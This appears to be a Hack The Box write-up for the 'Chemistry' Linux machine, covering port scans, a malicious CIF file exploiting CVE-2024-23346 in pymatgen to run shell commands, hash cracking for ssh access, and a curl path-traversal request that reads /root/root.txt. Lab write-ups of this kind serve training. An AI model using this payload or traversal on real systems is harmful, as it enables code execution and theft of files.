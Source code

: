 ```yaml
---
date: 2025-03-12
categories: [Linux, Easy]
---
```


![Chemistry](https://labs.hackthebox.com/storage/avatars/b8f3d660af2d3ed0929eb119e33526cf.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [FisMatHack](https://app.hackthebox.com/users/1076236)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---







- - I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
    
    ```python
    nmap -p- --open -vvv --min-rate 5000 -Pn -sS 10.10.11.35 -oG scan
    /opt/extractports scan
    nmap -p22,5000 -sCV -Pn 10.10.11.38 -oN ports
    ```
    
    ![image](https://github.com/user-attachments/assets/97b4d39c-24fd-4d9f-8ee0-fc0a1bceda7e)
    
- I search the website and find a page that allows me to upload a file. I try several things but I don't get anything
    
    ![image](https://github.com/user-attachments/assets/c89dca0a-41e0-41e7-8713-5b02e009cdaa)

- Searching for possible libraries I find the one being used and see that it has a vulnerability. Thanks to it I can execute remote code. [CVE-2024-23346](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

	```jsx
	data_5yOhtAoR
	_audit_creation_date            2018-06-08
	_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
	
	loop_
	_parent_propagation_vector.id
	_parent_propagation_vector.kxkykz
	k1 [0 0 0]
	
	_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("python3 -m http.server 9988");0,0,0'
	
	_space_group_magn.number_BNS  62.448
	_space_group_magn.name_BNS  "P  n'  m  a'  "
	```
	
   ![image](https://github.com/user-attachments/assets/5f62676f-8f88-4b22-88ac-39d3f781d104)
    
- When sharing directories I can find a file containing a database with users and passwords. As I have also found users that match the existing ones on the system, I crack the hash and manage to log in via ssh as the rosa user and I can read the first flag.
    
    ![image](https://github.com/user-attachments/assets/59de1f42-26d5-4eb8-b418-c3f9d0a1c1a5)
    
- I list the open ports and find one that is not exposed to the outside. 
    
    ![image](https://github.com/user-attachments/assets/06a27799-c21a-46b3-aa2f-312259bb6f84)
    
    ![image](https://github.com/user-attachments/assets/a0e5e22f-a934-4e90-a78e-efcf1f3ec402)
    
- I try to read files from the system using path traversal and I manage to read the second flag

    ![image](https://github.com/user-attachments/assets/6dba208f-5108-49d8-9adf-02daab10a0fb)
    
	```jsx
	 curl --path-as-is <http://127.0.0.1:8080/assets/../../../../../root/root.txt>
	```
	
	![image](https://github.com/user-attachments/assets/0652e40d-c654-4a95-9f26-800d21d11e1c)

